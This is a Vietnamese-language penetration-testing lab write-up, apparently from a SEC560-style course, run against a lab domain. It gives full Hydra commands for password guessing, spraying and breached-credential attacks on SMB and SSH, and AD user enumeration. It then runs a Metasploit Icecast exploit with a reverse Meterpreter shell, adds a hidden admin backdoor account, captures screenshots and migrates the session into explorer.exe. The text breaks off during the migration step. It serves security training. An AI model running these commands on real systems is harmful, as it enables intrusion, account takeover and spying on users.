# LAB 2: Initial Access, Payloads and Situational Awareness

## Table of Contents

- [Tổng quan Lab 2:](#tổng-quan-lab-2)
- [Lab 2.1 Password Guessing](#lab-21-password-guessing)
- [Mục tiêu](#mục-tiêu)
- [Cấu hình máy ảo](#cấu-hình-máy-ảo)
- [Cấu hình mạng với vmnet8 như sau:](#cấu-hình-mạng-với-vmnet8-như-sau)
- [Các bước thực hiện](#các-bước-thực-hiện)
- [Password Spray (SMB),](#password-spray-smb)
- [Tấn công từ điển - The Dictionary](#tấn-công-từ-điển---the-dictionary)
- [Password Guessing (SSH)](#password-guessing-ssh)
- [Tái sử dụng mật khẩu (Verifying Access)](#tái-sử-dụng-mật-khẩu-verifying-access)
- [Sử dụng dữ liệu từng bị rò rỉ (Breached Credentials)](#sử-dụng-dữ-liệu-từng-bị-rò-rỉ-breached-credentials)
- [Phun mật khẩu với toàn bộ người dùng Domain\](#phun-mật-khẩu-với-toàn-bộ-người-dùng-domain\)
- [Lab 2.2. Metasploit và Meterpreter](#lab-22-metasploit-và-meterpreter)
- [Mục tiêu của chúng ta:](#mục-tiêu-của-chúng-ta)
- [Cấu hình Metasploit để khai thác dịch vụ Icecast.](#cấu-hình-metasploit-để-khai-thác-dịch-vụ-icecast)
- [Lab 2.3.  Sliver](#lab-23--sliver)
- [Mục tiêu của chúng ta:](#mục-tiêu-của-chúng-ta)
- [Lab 2.4: Empire](#lab-24-empire)
- [Lab 2.5: Payloads](#lab-25-payloads)
- [Mục tiêu của chúng ta:](#mục-tiêu-của-chúng-ta)
- [Cấu hình Metasploit multi/handler để hứng nhiều kết nối đổ về cùng lúc.](#cấu-hình-metasploit-multi/handler-để-hứng-nhiều-kết-nối-đổ-về-cùng-lúc)
- [Cấu hình địa chỉ IP của bạn (Kẻ tấn công) và Cổng lắng nghe (Port):](#cấu-hình-địa-chỉ-ip-của-bạn-kẻ-tấn-công-và-cổng-lắng-nghe-port)
- [Lab 2.6: Seatbelt](#lab-26-seatbelt)
- [Mục tiêu của chúng ta:](#mục-tiêu-của-chúng-ta)

---


## Tổng quan Lab 2:

| Lab 2.1 | Password Guessing | 98 |
| --- | --- | --- |
| Lab 2.2 | Metasploit and Meterpreter | 112 |
| Lab 2.3 | Sliver | 140 |
| Lab 2.4 | Empire | 162 |
| Lab 2.5 | Payload | 201 |
| Lab 2.6 | Seatbelt | 223 |

Thực hiện các bài lab được bôi xanh.

Mô hình mạng được tri:

SEC560 Slingshot Linux (I01):

SEC560 Windows 10 (I01): 10.130.10.25

PC02:

ParrotSec6.0:

## Lab 2.1 Password Guessing

## Mục tiêu

Sử dụng Hydra thực hiện tấn công đoán mật khẩu (password guessing attack) nhắm vào SMB trên mục tiêu Windows.

Sử dụng Hydra thực hiện tấn công phun mật khẩu (password spray attack) nhắm vào SMB trên mục tiêu Windows.

Sử dụng Hydra thực hiện tấn công đoán mật khẩu (password guessing attack) nhắm vào dịch vụ SSH daemon.

## Cấu hình máy ảo

Sử dụng Slingshot Linux và
## Cấu hình mạng với vmnet8 như sau:


```bash
Ping từ máy Slingshot linux tới máy Hiboxy DC:
```


## Các bước thực hiện

## Password Spray (SMB),

Thực hiện password spray với username list:



Tấn công spray password tới Hiboxy DC 10.130.10.10, tìm thấy 1 account có password Spring2024 là alee



Dò quét với các mật khẩu khác: janderson/Summer2024



## Tấn công từ điển - The Dictionary

Sử dụng lệnh cat /otp/passwords/simple.txt để xem file mật khẩu có sẵn



Chúng ta đang có sẵn một danh sách mật khẩu đơn giản và sẵn sàng đoán mật khẩu.

## Password Guessing (SSH)

Thực thi Hydra với những cài đặt sau:

Username: bgreen

Sử dụng danh sách mật khẩu lấy được từ file simple.txt

Địa chỉ IP của máy nạn nhân là 10.130.10.10

Giao thức sử dụng SSH

Lệnh đầy đủ là:

```bash
hydra -l bgreen -P /opt/passwords/simple.txt 10.130.10.10 ssh
```



Sau khi chạy xong thì tìm thấy mật khẩu tương ứng với username bgreen là Password1

## Tái sử dụng mật khẩu (Verifying Access)

Hacker thường có suy nghĩ: "Nếu mật khẩu này đúng ở máy chủ Linux, liệu anh ta có dùng chung nó cho máy chủ Windows không?". Hãy đi tìm câu trả lời.

Đầu tiên, quét mạng bằng nmap để tìm tất cả các máy đang mở cổng 445 (cổng chia sẻ file SMB của Windows):

```bash
nmap -n -Pn -p 445 --open -oA /tmp/smb 10.130.10.0/24
```



Trích xuất danh sách các IP đang mở cổng 445:

```bash
grep 445/open /tmp/smb.gnmap | cut -d' ' -f 2 | tee /tmp/smbservers.txt
```



Dùng Hydra để kiểm tra tài khoản bgreen với mật khẩu Password1 trên toàn bộ các máy Windows vừa tìm được

```bash
hydra -m workgroup:{hiboxy} -l bgreen -p Password1 -M /tmp/smbservers.txt smb2
```



Thay vì chỉ định một IP duy nhất, ta dùng cờ -M để truyền vào một danh sách các máy chủ mục tiêu. Kết quả cho thấy tài khoản này hợp lệ trên toàn bộ 8 máy Windows. Chúng ta vừa chứng minh được sự nguy hiểm của việc dùng chung mật khẩu!

## Sử dụng dữ liệu từng bị rò rỉ (Breached Credentials)

Trong quá trình trinh sát (Recon), chúng ta tìm thấy một danh sách thông tin xác thực bị rò rỉ trên mạng của công ty Hiboxy. Liệu có nhân viên nào lười biếng đến mức chưa thèm đổi mật khẩu sau sự cố rò rỉ không?

Dùng Hydra kết hợp với cờ -C (Combo list dạng User:Password) để tấn công thẳng vào Domain Controller:

```bash
hydra -C /opt/passwords/hiboxy-breach.txt 10.130.10.10 -m workgroup:{hiboxy} smb2
```



Cờ -C cực kỳ hữu dụng khi bạn có một file chứa các cặp tài khoản và mật khẩu phân cách bởi dấu hai chấm (username:password). Hydra phát hiện ra ít nhất 2 tài khoản từ vụ rò rỉ cũ vẫn còn hoạt động trên hệ thống.

## Phun mật khẩu với toàn bộ người dùng Domain\

Vì chúng ta đã có một tài khoản hợp lệ trong Domain (bgreen:Password1), chúng ta có thể lợi dụng nó để trích xuất danh sách toàn bộ người dùng hợp lệ trong tổ chức, sau đó thực hiện rải mật khẩu trên quy mô lớn!

Dùng script GetADUsers.py để lấy danh sách người dùng:

```bash
GetADUsers.py hiboxy.com/bgreen:Password1 -dc-ip 10.130.10.10 -all | tee /tmp/adusers.txt
```



Cắt bỏ các tiêu đề thừa để chỉ lấy mỗi danh sách Username:

```bash
tail -n +6 /tmp/adusers.txt | cut -d ' ' -f 1 | tee /tmp/domainusers.txt
```



Mở cuộc tổng tấn công rải mật khẩu (Password1) vào tất cả người dùng trong hệ thống

```bash
hydra -L /tmp/domainusers.txt -p Password1 -m workgroup:{hiboxy} 10.130.10.10 smb2
```



Lệnh tail -n +6 giúp chúng ta bỏ qua 5 dòng tiêu đề đầu tiên, và lệnh cut -d ' ' -f 1 giúp ta chỉ cắt lấy cột đầu tiên (chính là tên người dùng). Với danh sách người dùng chuẩn xác 100%, tỷ lệ rải mật khẩu thành công của chúng ta sẽ tăng lên rất nhiều.
**Tổng kết: Chỉ bắt đầu từ một vài suy đoán đơn giản và mật khẩu rò rỉ, chúng ta đã nắm trong tay hàng loạt tài khoản nhân viên. Trong môi trường mạng nội bộ, quyền truy cập nhỏ nhất cũng có thể là bước đệm (pivot) để tiến sâu hơn vào vùng trọng yếu.**

## Lab 2.2. Metasploit và Meterpreter
## Mục tiêu của chúng ta:
## Cấu hình Metasploit để khai thác dịch vụ Icecast.

Gửi payload reverse_http chứa Meterpreter để tạo kết nối ngược từ nạn nhân về máy kẻ tấn công.

Tương tác với hệ thống nạn nhân: Tạo backdoor, chụp màn hình, di chuyển tiến trình và theo dõi bàn phím (keylogger).

Bước 1: Khởi động và cấu hình Metasploit trên Linux

Để bắt đầu, chúng ta cần bật Metasploit, tìm kiếm bản khai thác (exploit) phù hợp cho phần mềm Icecast và nạp "đạn" (payload) cho nó.

Mở Terminal trên máy Linux và khởi động Metasploit: msfconsole

(Nếu được hỏi về việc khởi tạo webservice hay xóa dữ liệu cũ, cứ nhấn Enter hoặc gõ yes theo mặc định)



Tại dấu nhắc msf6 >, hãy tìm kiếm bản khai thác cho Icecast:

```bash
search icecast
```



Chọn bản khai thác icecast_header:

```bash
use exploit/windows/http/icecast_header
```



Cài đặt payload thành HTTP Reverse Shell (Kết nối ngược qua giao thức HTTP):

```bash
set PAYLOAD windows/meterpreter/reverse_http
```



Khai báo địa chỉ IP của mục tiêu (Nạn nhân - Windows) và IP của máy bạn (Kẻ tấn công - Linux):

```bash
set RHOSTS 10.130.10.25
```

```bash
set LHOST eth0
```



Gõ lệnh show options sau khi chạy và được kết quả như hình là thành công

Phân tích đơn giản:

RHOSTS (Remote Hosts): Là địa chỉ IP của máy nạn nhân mà chúng ta muốn bắn exploit vào.

LHOST (Local Host): Là địa chỉ IP hoặc cổng mạng (eth0) của máy chúng ta, nơi sẽ hứng kết nối trả về từ nạn nhân.

reverse_http: Thay vì kết nối TCP thông thường, việc dùng HTTP sẽ giúp payload dễ dàng ngụy trang thành lưu lượng lướt web bình thường, giúp xuyên qua tường lửa dễ dàng hơn.

Bước 2: Chuẩn bị "Con mồi" (Máy Windows)

Trong kịch bản thực tế, mục tiêu của bạn đang chạy phần mềm có lỗ hổng. Ở lab này, chúng ta cần tự tay bật nó lên.

Chuyển sang máy ảo Windows 10.

Tìm biểu tượng phần mềm Icecast trên màn hình Desktop, click chuột phải và chọn Run as administrator.

Khi giao diện Icecast hiện lên, click vào nút Start Server. Đảm bảo chữ "Server Status" chuyển sang màu xanh lá và ghi là "Running".



Bước 3: Khai hỏa (Launch the Attack)

Tại dấu nhắc của Metasploit trên Linux, gõ lệnh:

run



Phân tích đơn giản: Metasploit sẽ gửi một gói tin đặc biệt làm tràn bộ đệm của phần mềm Icecast. Khi Icecast bị lỗi, nó sẽ bị ép phải chạy đoạn mã độc (Meterpreter) của chúng ta. Đoạn mã này lập tức gọi ngược (call back) về máy Linux, mở ra cho chúng ta một phiên điều khiển từ xa (Meterpreter session). Lưu ý: Nếu Icecast trên Windows bị crash (đóng đột ngột) và bạn không thấy kết nối, chỉ cần bật lại Icecast và gõ lại lệnh run.

Bước 4: Quản lý phiên và Khám phá hệ thống (Meterpreter)

Khi thấy dấu nhắc meterpreter > xuất hiện, xin chúc mừng, bạn đã kiểm soát được máy tính của nạn nhân!

Hãy đưa phiên làm việc này xuống chạy ngầm (background) để xem danh sách các phiên đang mở:

```bash
background
```

```bash
sessions
```



Đổi tên phiên làm việc cho dễ nhớ (giả sử phiên của bạn mang ID là 1):

```bash
sessions -n icecast_win10 -i 1
```



Truy cập lại vào phiên vừa đổi tên:

```bash
sessions -i 1
```



Thu thập thông tin hệ thống và xem chúng ta đang là ai:

```bash
sysinfo
```

```bash
getuid
```



Phân tích đơn giản: Meterpreter chạy hoàn toàn trên RAM của máy nạn nhân (cụ thể là đang "ký sinh" trong tiến trình của Icecast). Nó không ghi file lên ổ cứng nên các phần mềm diệt virus rất khó phát hiện. Lệnh getuid cho thấy chúng ta đang chạy dưới quyền của tài khoản vừa mở ứng dụng Icecast.

Bước 5: Thả Backdoor thông qua Command Shell

Đôi lúc, cách tốt nhất để thao tác với Windows là dùng chính Command Prompt (cmd) mặc định của nó. Giả sử chúng ta muốn tạo một tài khoản Admin ẩn danh trên máy nạn nhân.

Tại dấu nhắc Meterpreter, gọi shell của Windows:

```bash
shell
```



Tạo một người dùng mới tên là BACKDOOR và đưa người này vào nhóm Quản trị viên (Administrators):

```bash
net user BACKDOOR Password1 /add
```

```bash
net localgroup administrators BACKDOOR /add
```



Kiểm tra xem tài khoản đã được đưa vào nhóm Admin chưa:

```bash
net localgroup administrators
```



Xóa tài khoản để dọn dẹp dấu vết và thoát khỏi shell để về lại Meterpreter:

```bash
net user BACKDOOR /del
```

```bash
exit
```



Phân tích đơn giản: Lệnh shell giúp bạn hạ cánh trực tiếp vào giao diện dòng lệnh của Windows. Từ đây, bạn có thể chạy các lệnh hệ thống y hệt như đang ngồi trước màn hình của nạn nhân. Việc thêm tài khoản Admin là một cách phổ biến để tạo "cửa hậu" (backdoor) duy trì quyền truy cập lâu dài.

Bước 6: Thể hiện quyền lực của Meterpreter (Spy Tools)

Tạo tài khoản thì "bình thường" quá. Hãy xem tại sao Meterpreter lại được giới hacker yêu thích đến vậy. Chúng ta sẽ chụp trộm màn hình và theo dõi từng nhịp gõ phím của nạn nhân!

Chụp màn hình nạn nhân: Lưu file ảnh về máy Linux.

```bash
screenshot -p /tmp/screen.jpg
```

(Bạn có thể mở thư mục /tmp trên Linux để xem bức ảnh vừa chụp).



Ký sinh (Migrate) sang tiến trình khác: Tiến trình Icecast rất thiếu ổn định và có thể bị nạn nhân tắt đi. Để an toàn, hãy di chuyển Meterpreter sang một tiến trình "trâu bò" hơn như explorer.exe (tiến trình quản lý giao diện Desktop của Windows).

```bash
getpid
```

```bash
ps -S explorer.exe
```

```bash
migrate -N explorer.exe
```

